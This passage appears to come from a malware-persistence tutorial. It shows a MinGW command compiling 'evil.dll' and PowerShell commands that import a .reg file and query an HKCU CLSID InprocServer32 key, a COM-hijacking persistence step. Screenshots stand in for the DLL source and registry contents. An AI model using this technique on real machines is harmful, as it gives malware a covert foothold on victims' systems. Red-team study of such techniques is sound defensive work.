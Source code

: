 Then, just run:

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/53/2022-05-02_17-04.png){:class="img-responsive"}    

Save reg file as `evil.reg`:

![pers](/assets/images/53/2022-05-02_18-22.png){:class="img-responsive"}    

And import, then check registry again:

```powershell
reg import C:\Users\User\Desktop\shared\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query "HKCU\Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
```

![pers](/assets/images/53/2022-05-02_16-43.png){:class="img-responsive"}    

